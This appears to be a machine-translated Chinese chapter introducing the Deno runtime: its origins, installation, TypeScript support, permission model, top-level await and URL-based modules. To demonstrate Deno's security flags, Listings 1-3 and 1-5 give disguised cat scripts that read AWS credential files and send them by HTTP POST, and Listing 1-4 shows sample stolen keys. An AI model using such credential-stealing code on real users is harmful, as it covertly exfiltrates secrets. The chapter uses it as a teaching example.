






# 一、为什么是Deno？

在过去的 10 年里，当后端开发人员听到“后端的 JavaScript”这个词时，所有人都会立即想到 Node.js。

在这 10 年的开始，也许不会马上出现，但最终它的名字为每个人所知，成为另一种基于 JavaScript 的可用后端技术。凭借其现成的异步 I/O 功能(因为虽然其他技术也支持这一功能，但 Node 是第一个将它作为核心机制的技术)，它为自己划分了一部分市场。

更具体地说，Node.js 几乎成为编写 API 的事实上的选择，因为开发人员在这样做时可能会有疯狂的性能，而您只需很少的努力就可以获得很好的结果。

那么，为什么在 Node.js 核心及其周围的工具和库生态系统发展了 10 年之后，我们会得到一个新的 JavaScript 运行时，它不仅与 Node 非常相似，而且是解决相同问题的更好方法呢？

这个问题的答案和这个新项目的概述在接下来的章节中等待着你，所以系好安全带，让我们谈谈 Deno，好吗？

Deno 的 1.0 版本于 2020 年 5 月 13 日正式发布，但 Deno 的想法并不是在 2020 年诞生的。事实上，尽管它最初是由它的创造者瑞安·达尔 <sup>[1](#Fn1)</sup> (顺便说一下，他也是 Node 的原始版本的作者)在 2018 年一次名为“Node.js 的 10 件事”的会议期间提出的， <sup>[2](#Fn2)</sup> 到那时，他已经在 Deno 的原型上工作了一段时间。

这样做的动机很简单:他认为 Node 有一些无法从项目内部解决的根本性缺陷，因此，更好的解决方案是从头开始。无论如何，不要重新设计语言，毕竟，Ryan 和 Node 之间的问题不是关于 JavaScript，而是关于 Node 的内部架构以及它如何设法解决一些需求。

然而，他首先改变的是技术体系。他没有依赖于他的旧的和可信的工具集，如 C++和 libuv， <sup>[3](#Fn3)</sup> 他从它们转移到一种更新的方法，使用 Rust <sup>[4](#Fn4)</sup> 作为主要语言(这就像是一种没有垃圾收集器的编写 C++的现代方法)和 Tokio， <sup>[5](#Fn5)</sup> 一个在 Rust 之上工作的异步库。事实上，这是架构中为 Deno 提供事件驱动的异步行为的部分。虽然不是技术堆栈的一部分，但我们也应该提到 Go，因为它不仅仅是 Ryan 在最初的原型(2018 年展示的那个)中使用的，而且它也是 Deno 在一些机制方面的一个很大的灵感(就像我们将在下面看到的那样)。

## 它试图解决什么问题？

除了可能过时的技术堆栈，Ryan 在设计 Deno 时还试图解决什么？

在他的脑海中，Node 有几个缺点没有得到及时解决，然后成为永久的技术债务。

### 不安全的平台

对他来说，Node 是一个不安全的平台，不知情的开发人员可能会留下一个安全漏洞，要么是因为不必要的特权执行，要么是因为访问系统服务的代码没有得到正确保护。

换句话说，使用 Node.js，您可以编写一个脚本，通过 TCP 将请求不受控制地发送到特定的 URL，从而在接收端造成潜在的问题。这是因为没有什么可以阻止您使用主机的网络服务。至少，Node 这边什么都没有。

同样，在 2018 年，一个非常受欢迎的 Node.js 模块的 repo 被社交黑客 <sup>[6](#Fn6)</sup> (即其创建者被骗向黑客提供了其代码的访问权限)，黑客添加了代码，可以窃取你的比特币钱包(如果你有一个的话)。因为 Node 中没有固有的安全性，所以这个模块能够访问您计算机上的某个路径，而它原本并不打算访问该路径。如果有办法注意到该路径上的读访问，并且用户必须手动允许它发生，这就永远不会是威胁。

### 有问题的模块系统

模块系统也是他不满意的地方。用他自己的话来说， <sup>[7](#Fn7)</sup> 与其他部分(如异步 I/O 或事件发射器)得到的考虑相比，它的内部设计是事后才想到的。他后悔让 npm 成为节点生态系统包管理的事实上的标准。他不喜欢它是一个集中和私人控制的仓库。Ryan 认为浏览器导入依赖关系的方式更干净，也更容易维护。

老实说，简单地说

```js
<script type="text/javascript" src="http://yourhostname/resources/module.js" async="true"></script>

```

而不是必须在 manifesto 文件(即 package.json)中编写一个新条目，然后自己安装(因为说实话，npm 会安装它，但你必须在某一点运行命令)。

事实上，整个`package.json`文件是他不太满意的。在定义 require 函数时，他实际上改变了 require 函数的逻辑，以确保它会考虑到它的内容。但是由文件的语法(即，作者信息、许可、存储库 URL 等)提供的附加“噪声”。)是他认为可以更好处理的事情。

在类似的注释中，保存模块的文件夹(node_modules)是他会尽可能处理掉的东西。这可能是大多数 Node 社区都同意的，因为每个人都至少抱怨过一次这个文件夹的大小，特别是当他们同时有几个活动项目时。也就是说，将该文件夹放在项目本地的初衷是为了避免混淆您正在安装的内容。当然，这是一个非常天真的解决方案，最终结果证明了这一点。

### 其他次要问题

他在 Node 上还有其他小问题，比如需要本地模块而不必指定其扩展的能力；这本来是为了帮助改善开发人员的体验，但它最终创建了一个过于复杂的逻辑，必须检查几个扩展才能理解到底需要什么。

或者与 index.js 文件相关联的隐式行为(事实上，您可以需要一个文件夹，它默认需要 index.js 文件在其中)。正如他在演示中所说，这是 Ryan 想添加的一个“可爱”功能，目的是通过模拟 index.html 文件在 Web 上的行为来改善体验。最终，这个特性并没有给用户带来太多的体验，并且导致了一种我认为不是创作者想要的模式。

总而言之，这些都是他的决定或他参与的决定，在他看来，有一种更好的方式来做这件事，这就是触发 Deno 的创建和他为这个新的运行时所采取的设计方向。

接下来，我们将更详细地介绍这一点:他所做的决定以及这些决定如何转化为一系列功能，这些功能不仅旨在区分 Deno 和 Node，还旨在提供 Ryan 最初想用 Node 为开发人员提供的安全运行时。

## 尝试 Deno

既然我们已经介绍了创建 Deno 背后的基本原因，那么是时候了解一些非常基本的东西了:如何安装和使用它。

幸运的是，如果你有兴趣只是把你的脚趾头伸进 Deno 水域了解它看起来像什么，但你真的不想淋湿，还有其他选择。如果你想完全进入 Deno，你也可以很容易地把它安装到所有主要的操作系统中。

### 在线游乐场

如果你需要的只是一个快速的小 REPL 来测试一种语言功能，或者只是习惯于使用 TypeScript 和 Deno 的感觉，你可能想免费看看目前为你(和所有有互联网连接的人)提供的任何一个在线平台。

#### Deno游乐场

由 ach mad Mahardi(GitHub 上的 maman<sup>[8](#Fn8)</sup>)创建的这个在线游乐场 <sup>[9](#Fn9)</sup> 是我见过的最完整的一个。虽然它的用户界面非常简单，但是您可以做如下事情

*   在 JavaScript 和 TypeScript 中执行代码示例，并在屏幕右侧查看结果。

*   您可以启用对不稳定功能的支持(参见图 [1-1](#Fig1) 中的示例)。

*   自动格式化你的代码，这在你从其他地方复制粘贴代码时特别有用。

*   最后，你可以与他人分享。此功能允许您使用单击“共享”按钮后生成的永久链接与其他人共享您的代码片段。



图 1-1

启用了不稳定功能的 Deno 游乐场

关于这个游乐场另一个需要注意的重要事情是，它已经使用了 Deno 的最新版本:版本 1.0.1。

如果你正在使用另一个游戏场，并想确保你使用的是最新版本，你可以简单地使用下面的代码片段:



#### Deno镇

另一个值得一提的游乐场是 Deno.town 虽然没有前作那么功能丰富，但它有一个非常简单的界面，而且工作起来也一样好。

您不能分享您的片段，并且在撰写本文时，Deno.town 正在使用 Deno 版本 0.26.0，但是您仍然可以使用该语言并测试一些想法。



图 1-2

Deno.town，Deno 的在线游乐场

也就是说，从好的方面来看，这个 Deno playground 默认启用了不稳定标志，所以您可以对该语言做任何您想做的事情。它还提供了一个非常有用的特性:智能感知。



图 1-3

使用 Deno.town 编写代码时的智能感知

图 [1-3](#Fig3) 显示了一个非常熟悉的场景，特别是如果你是一个 VS 代码 <sup>[11](#Fn11)</sup> 用户，因为它类似于那个 IDE 的默认主题和整体行为。这绝对是一个很棒的特性，尤其是当您在寻找某个特定 API 的帮助时。它会提供快速帮助，告诉你有哪些选择以及如何使用。

### 在计算机上安装 Deno

最后，为了结束这一章，我们将做你可能从开始阅读它就一直在寻找的事情:我们将安装 Deno(是时候了，你不这样认为吗？).

安装 Deno 其实很简单；根据您的操作系统，您需要以下选项之一。无论哪种方式，它们都只是一个从不同地方提取二进制文件的命令行程序(或者在某些情况下从源代码安装):

如果您是 Mac 用户:

Shell:在您的终端窗口中，编写

```js
curl -fsSL https://deno.land/x/install/install.sh | sh

```

自制:你可以使用自制配方。 <sup>[12](#Fn12)</sup>

```js
brew install deno

```

如果您是 Windows 用户:

PowerShell:在 Shell 窗口中，键入

```js
iwr https://deno.land/x/install/install.ps1 -useb | iex

```

独家新闻: <sup>[13](#Fn13)</sup> 如果你在 Windows 终端上使用这个命令行安装程序，只需输入

```js
scoop install deno

```

如果您是 Linux 用户:

Shell:对于 Linux 用户来说，你暂时只有 shell 安装程序，虽然说实话你不需要其他任何东西。

```js
$ deno
Deno 1.2.0
exit using ctrl+d or close()
> console.log("Hello REPL World!")
Hello REPL World!

Listing 1-1Deno REPL after a fresh installation

```

```js
curl -fsSL https://deno.land/x/install/install.sh | sh

```

最后，结果应该是一样的:您应该能够从您的操作系统的终端窗口执行 deno 命令，并且应该打开 CLI REPL，如清单 [1-1](#PC8) 所示。

## 那Deno有什么好酷的？

在设计新的运行时时，Ryan 试图尽可能多地解决他最初对 Node 的关注，同时利用最新版本的 ECMAScript 和 TypeScript。

最终，Deno 成为了一个安全的运行时，不仅与 JavaScript 兼容，还与 TypeScript 兼容(没错，如果你是 TS 迷，你会喜欢的！).

让我们来看看 Deno 引入的基本改进。

### 作为一等公民TypeScript

这无疑是自正式发布以来最受欢迎的特性之一，主要是因为 TypeScript 在 JavaScript 社区中获得了越来越多的追随者，尤其是 React 开发人员，尽管您可能知道，它可以用于任何框架。

到目前为止，使用 TypeScript 作为项目的一部分需要您设置一个构建过程，在执行之前，该过程将 ts 代码转换为 JS 代码，以便运行时可以获取并解释它。毕竟我们都知道被执行的是 JavaScript。对于 Deno，这并不完全正确；事实上，您有能力编写 JavaScript 或 TypeScript 代码，只需让解释器执行即可。如果您使用 TS，那么代码将在内部加载 TypeScript 编译器，并将代码转换成 JavaScript。

过程本质上是相同的，但是对开发人员来说是完全透明的；从您的角度来看，您只是在执行 TypeScript。这绝对是一个优势；不再需要构建过程，编译时间在解释器内部得到优化，这意味着您的启动时间尽可能快。

我们将在下一章更深入地讨论 TypeScript，但是现在，Deno 的一个简单 TS 示例可以在清单 [1-2](#PC9) 中看到。

```js
const add = (a: number, b:number): number => {
   return a + b;
}

console.log(add(2,4))

Listing 1-2Basic TypeScript example that runs with Deno

```

将它另存为`sample1.ts`并运行它，如下面的代码片段所示(假设您已经安装了 Deno 如果您还没有，请不要担心，我们将在一分钟内完成):

```js
$ deno run sample1.ts

```

该执行的输出是

```js
Compile:
 file://Users/fernandodoglio/workspace/personal/deno/ts-sample/sample1.ts
6

```

请注意前面代码片段中显示的第一行；您可以看到 Deno 所做的第一件事是将您的代码编译成 JavaScript，而您无需做任何事情。

另一方面，如果我们用普通的 JavaScript 编写代码，输出会略有不同:

```js
$ deno run sample1.js
6

```

### 安全

你有没有注意到，有时当你在手机上安装一个应用时，当他们试图访问相机或磁盘中的特定文件夹时，你会被要求权限？这是为了确保您没有安装试图在您不知情的情况下访问敏感信息的应用。

使用 Node，您执行的代码不受您的控制。事实上，我们通常倾向于盲目地信任上传到 npm 的模块，但是你怎么能确定他们真的做了他们所说的事情呢？不可以！当然，除非您直接检查它们的源代码，这对于具有数万行代码的大模块来说是不现实的。

目前保护您数据的唯一安全层是您的操作系统；这将有助于普通用户访问操作系统敏感的数据(如 Linux 机器上的/etc 文件夹)，但访问其他资源(如通过网络发送请求或从环境变量中读取潜在的敏感信息)是完全允许的。因此，从技术上讲，您可以编写一个 Node CLI 工具来完成与`cat`命令一样的基本任务(读取文件内容，然后将其输出到标准输出),然后添加一些额外的代码来读取您的 AWS 凭证文件(如果有的话),并通过 HTTP 将其发送到另一个服务器，在那里您可以接收并存储它。

查看清单 [1-3](#PC13) 中的代码以获得完整的示例。

```js
const  readFile  = require('fs').readFile
const  homedir = require('os').homedir
const  request = require('request')

const filename = process.argv[2]

async function  sendDataOverHTTP(data) {
   return request.post('http://localhost:8080/', {
       body: data
   }, (err, resp, body) => {
       console.log("--------------------------------------------------")
       console.log("-             STOLEN INFORMATION                 -")
       console.log(body)
       console.log("--------------------------------------------------")
   })
}

async function gatherAWSCredentials() {
   const awsCredsFile = homedir() + "/.aws/credentials"
   return readFile(awsCredsFile, async (err, cnt) => {
       if(err) {
           //ignore silently since we don't want anyone to know about it
           console.error(err)
           return;
       }
       return await sendDataOverHTTP(cnt.toString())
   })
}

readFile(filename, async (err, cnt) => {
   if(err) {
       console.error(err)
       exit(1)
   }
   await gatherAWSCredentials()
   console.log("==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====")
   console.log(cnt.toString())
   console.log("=============================================")
})

Listing 1-3Code for a CLI tool that steals private information

```

这是一个非常简单的脚本；您可以使用 Node 来执行它，如下一个代码片段所示:

```js
$ node cat.js sample1.js

```

然而，输出并不完全是您，作为一个不知情的用户，所期望的；查看清单 [1-4](#PC15) 以了解我的意思。

```js
==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====
const add = (a, b) => {
      return a + b;
}

console.log(add(2,4))
================================================
--------------------------------------------------
-          STOLEN INFORMATION -
[default]
aws_access_key_id = AIIAYOD5HUHFNW6VBSUH
aws_secret_access_key = 389Jld6/ofv1z3Rj9UulA9lkjqmzQlZNACK12O6hK

--------------------------------------------------

Listing 1-4Output from the cat script

```

清单 [1-4](#PC15) 显示了正在发生的事情，以及你不仅仅是在访问你想要的文件，还在访问你认为是私有的文件。

如果我们用 Deno 写同样的脚本并试着执行它，故事将会完全不同；让我们在清单 [1-5](#PC16) 中查看一下。

```js
const sendDataOverHTTP = async (data: string) => {
   const decoder = new TextDecoder('UTF-8')

   const resp = await fetch("http://localhost:8080", {
       method: "POST",
       body: data
   })
   let info = await resp.arrayBuffer()
   let encoded = new Uint8Array(decoder.decode(info)
       .split(",")
       .map(c => +c))
   console.log("--------------------------------------------------")
   console.log("-             STOLEN INFORMATION             -")
   console.log(decoder.decode(encoded))
   console.log("--------------------------------------------------")
}

const gatherAWSCredentials = async () => {
   const awsCredsFile = Deno.env.get('HOME') + "/.aws/credentials"
   try {
       let data = await Deno.readFile(awsCredsFile)
       return await sendDataOverHTTP(data.toString())
   } catch (e) {
       console.log(e) //logging the error for demo purposes
       return ;
   }
}

const filename  = Deno.args[0]

const decoder = new TextDecoder('UTF-8')
const text = await Deno.readFile(filename)

await gatherAWSCredentials()
console.log("==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====")
console.log(decoder.decode(text))
console.log("================================================")

Listing 1-5Same CLI code from before but written in Deno

```

清单 [1-5](#PC16) 中的代码与之前的节点代码完全相同；它向您显示您试图查看的文件的内容，同时，它将敏感的 AWS 凭证复制到外部服务器。

要运行该代码，我们假设您只需使用如下所示的代码行:

```js
$ deno run deno-cat.ts sample1.ts

```

然而，我们会得到一个类似于我们在清单 [1-6](#PC18) 中看到的错误。

```js
error: Uncaught PermissionDenied: read access to "sample1.ts", run again with the --allow-read flag
     at unwrapResponse ($deno$/ops/dispatch_json.ts:42:11)
     at Object.sendAsync ($deno$/ops/dispatch_json.ts:93:10)
     at async Object.open ($deno$/files.ts:38:15)
     at async Object.readFile ($deno$/read_file.ts:14:16)
     at async file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:35:14

Listing 1-6Output of executing a Deno script without the proper permissions set

```

如您所见，如果我们不直接允许访问文件，我们甚至无法打开我们实际尝试查看的文件。

如果我们像错误消息中建议的那样用`--allow-read`标志提供适当的权限，我们会得到另一个错误，这个错误实际上更麻烦一些。

```js
error: Uncaught PermissionDenied: access to environment variables, run again with the --allow-env flag
     at unwrapResponse ($deno$/ops/dispatch_json.ts:42:11)
     at Object.sendSync ($deno$/ops/dispatch_json.ts:69:10)
     at Object.getEnv [as get] ($deno$/ops/os.ts:27:10)
     at gatherAWSCredentials (file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:21:35)
     at file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:37:7

Listing 1-7Error while attempting to access an environmental variable without permission

```

```js
$ deno run --allow-read deno-cat.ts sample1.ts

```

查看清单 [1-7](#PC20) 中的错误，我们得到一个有趣的通知，关于我们的脚本试图访问的一个环境变量，考虑到我们试图做的事情，这可能有点奇怪。如果我们也允许这种访问，我们将得到清单 [1-8](#PC21) 中所示的错误。

```js
PermissionDenied: network access to "http://localhost:8080/", run again with the --allow-net flag
     at unwrapResponse ($deno$/ops/dispatch_json.ts:42:11)
     at Object.sendAsync ($deno$/ops/dispatch_json.ts:93:10)
     at async fetch ($deno$/web/fetch.ts:266:27)
     at async sendDataOverHTTP (file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:6:18)
     at async gatherAWSCredentials (file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:24:16)
     at async file:///Users/fernandodoglio/workspace/personal/deno/ts-sample/deno-cat.ts:37:1
==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====
const add = (a: number, b:number): number => {
     return a + b;
}
console.log(add(2,4))
================================================

Listing 1-8Network access error

```

这很奇怪。我们可以再次绕过它，允许网络访问，但是作为一个用户，为什么需要使用`Cat`命令来访问网络接口呢？我们将会看到更多像这样的例子，并在第 [3](3.html) 章中讨论所有的安全标志。

### 顶级等待

从 Node 添加对`async/await`子句的支持的那一刻起，各地的开发人员就开始将他们基于承诺的方法转换成这种新的机制。问题是每个`await`子句都必须是`async`函数的一部分。换句话说，顶级等待——对项目主文件上的`async`函数的结果进行`await`的能力——还不被支持。

直到今天，即使 V8 已经添加了对它的支持，我们仍在等待 Node 赶上来，迫使开发人员通过使用声明为`async`的 IIFEs(也称为立即调用函数表达式)来解决这一限制。

但由于 Deno，这不再是真的；在 1.0 版本中，您可以立即获得顶级 wait。你能从中得到什么好处？

首先，由于这个原因，您的启动代码可以被清理。您是否曾经不得不在连接数据库的同时启动 web 服务器？能够从顶层直接`await`这些动作，而不是将它们包装成一个函数来运行，这无疑是一个优势。

更容易的依赖性回退。试图从两个不同的地方导入一个特定的库现在可以很容易地在顶层编写，只需捕捉第一个库的异常，如清单 [1-9](#PC22) 所示。

```js
let myModule = null;
try {
  myModule = await import('http://firstURL')
} catch (e) {
  myModule = await import('http://secondURL')
}

Listing 1-9Using top-level await for imports

```

这是一个比依赖 promises 提供的语法简单得多的语法，或者以某种方式将整个东西包装到一个异步函数中，然后以某种方式将依赖关系导出到全局空间。

这肯定不是 Deno 带给我们的重大改进之一，但绝对是值得一提的，因为 Node 社区已经要求这种能力很长时间了。

### 扩展和改进的标准库

JavaScript 的标准库甚至 Node 的标准库从来都不是什么值得骄傲的东西。几年前，这甚至更糟，要求美国开发人员添加几乎成为标准的外部库，如 jQuery <sup>[14](#Fn14)</sup> 那时帮助每个人理解 AJAX 如何工作，并提供几个助手方法来迭代对象，后来强调 <sup>[15](#Fn15)</sup> 和最近的 Lodash <sup>[16](#Fn16)</sup> 提供了相当多的处理数组和对象的方法。随着时间的推移，这些方法(或类似的版本)已经被整合到 JavaScript 的标准库中。

也就是说，在我们可以有把握地说，我们可以在不需要开始为最基本的操作要求外部模块的情况下构建一些东西之前，还有很长的路要走。毕竟，这已经成为 Node 的标准:一个基本的构建块，要求您开始添加模块，以便拥有您需要的工具。

考虑到这一点，Deno 的标准库的设计不仅仅是提供基本的构建模块；事实上，Deno 的核心团队在将这些功能发布给公众之前，已经对它们进行了审查，并认为它们具有足够的质量。这是为了确保作为 Deno 开发人员的您获得所需的适当工具，遵循该语言的内部标准，并尽可能具有最高的代码质量。也就是说，为了从社区获得反馈，有些库在开发中就已经发布了(带有适当的警告信息)。如果您决定继续尝试它们，您应该适当地小心使用它们，并理解这些 API 可能会根据它们得到的响应而改变。

关于这组函数的另一个有趣的信息是，就像整个模块系统(我们将在下面讨论)，它受到 Go 标准库的很大影响。虽然双方没有一一对应的关系，但是看包的名字甚至函数名就能看出影响。记住，Deno 的标准库是不断增长的；版本 1 只包含了团队能够从 Go 移植过来的所有东西，但是这项工作还在继续，未来的版本将会看到这个列表的增长。

这种方法的好处是，如果有一个函数还没有在 Deno 中记录，您可以通过访问 Go 的官方文档并在相应的模块中找到它。正如我所说的，这不是 Go 的镜像，但因为它受到了很大的启发，所以您可以获得诸如`fmt`包之类的东西，它包含两种语言的字符串格式化帮助函数。



图 1-4

关于 printf 函数的 Deno 和 Go 文档

图 [1-4](#Fig4) 说明了我所说的相似之处。虽然 Deno 函数仍在开发中，其开发者也在积极地寻求反馈，但已经可以看出“动词”等概念的来源来自 Go 方面。

### 不再有 npm

Deno 引入的关于节点生态系统的最后也可能是最大的变化是，它放弃了每个节点开发人员在其职业生涯中一度讨厌和喜欢的事实上的包管理器。

这并不是说 Deno 会带来自己的包管理器；事实上，Deno 正在重新思考它的整个包管理策略，寻找一个更简单的(也是受 Go 启发的)方法。

在本章开始讨论 Deno 试图解决的问题时，我提到 Ryan 认为 npm 及其相关的一切都是错误的。一方面，因为它太冗长而无法使用(考虑到有多少样板代码进入了`package.json`文件),而且他不喜欢每个模块都驻留在一个私人控制的集中存储库中。所以他借此机会走向了一个完全不同的方向。

开箱即用，Deno 允许您从 URL 导入代码，就像它们是本地安装的模块一样。事实上，您不需要考虑安装模块；当你执行你的脚本时，Deno 会处理好的。

但是让我们先回顾一下。相对于 npm 和其他类似技术的这一改进背后的全部要点是有一个更简单的方法，正如我之前所说的，一个类似于 Go 的 yes，但也非常类似于浏览器和前端 JavaScript 的工作方式。如果你正在做一些前端 JavaScript，你不需要手动安装你的模块；您只需使用`script`标签来请求它们，浏览器会负责寻找它们，不仅下载它们，还会缓存它们。Deno 采取了非常相似的方法。

您可以继续导入本地模块。毕竟你的文件也算模块；这一点没有改变，但所有第三方代码，包括 Deno 官方提供的标准库，都将在线供您导入。

例如，看看清单 [1-10](#PC23) 中显示的 Deno 官网的示例代码。



图 1-5

导入外部模块的 TypeScript 文件的第一次执行的输出

```js
import { bgBlue, red, bold, italic } from "https://deno.land/std/fmt/colors.ts";

if (import.meta.main) {
 console.log(bgBlue(italic(red(bold("Hello world!")))));
}

Listing 1-10Sample code showing imports from a URL

```

图 [1-5](#Fig5) 显示了执行这个简单脚本的输出。如您所知，我们看到在代码执行之前发生了两个动作。这是因为 Deno 首先下载并缓存脚本。第二步，它还将我们的 TypeScript 代码编译成 JavaScript(如果这个例子是一个. js 文件，这一步就不会发生了)，所以它最终可以执行它。

这个过程最好的部分是，下次你执行代码时，它会直接执行，不需要下载或编译任何东西，因为所有东西都被缓存了。当然，如果您决定更改代码，那么编译步骤需要重新进行。

至于外部模块，因为它现在被缓存了，所以您不必再次下载它，当然，除非您明确地告诉 CLI 工具这样做。不仅如此，从现在开始，任何其他需要导入相同文件的新项目都将能够从共享缓存中获得该文件。比起在你的硬盘上放几个巨大的文件夹，这是一个巨大的进步。

更具体地说，Deno 的模块系统是基于 es 模块的，而 Node 的模块系统是基于 CommonJS 的(最近也是基于 ES 模块的，尽管还处于实验模式)。这意味着在 Deno 中将一个模块导入到您的代码中，您的语法如下所示:

```js
import {your_variables_here} from 'your-modules-url';

```

当需要从自己的模块中导出一些对象或函数时，只需使用清单 [1-11](#PC25) 中所示的`export`关键字。

```js
export function(...) {
 // your code...
}

Listing 1-11Using the export keyword

```

我将在第四章[中更详细地介绍这个主题，所以请记住我们现在已经摆脱了黑洞，也就是`node_modules`文件夹，我们不再需要担心`package.json`。我将介绍如何处理缺乏集中的模块注册中心的问题，以及围绕这一问题开发的不同模式。](4.html)

## 结论

关于 Deno 最初为什么被创建以及它试图解决什么样的问题，你现在是最新的。如果您是一名节点开发人员，那么您应该已经掌握了足够的信息，可以开始使用在线 REPLs，甚至是使用 Deno 安装的 CLI REPL。

但是，如果您来自其他语言，甚至来自前端，请耐心等待，继续阅读，因为我们将快速介绍什么是 TypeScript，以及如何将它与 Deno 一起用于后端开发。

<aside aria-label="Footnotes" class="FootnoteSection" epub:type="footnotes">Footnotes [1](#Fn1_source)

[T2`https://en.wikipedia.org/wiki/Ryan_Dahl`](https://en.wikipedia.org/wiki/Ryan_Dahl)

  [2](#Fn2_source)

[T2`https://youtu.be/M3BM9TB-8yA`](https://youtu.be/M3BM9TB-8yA)

  [3](#Fn3_source)

[T2`https://libuv.org/`](https://libuv.org/)

  [4](#Fn4_source)

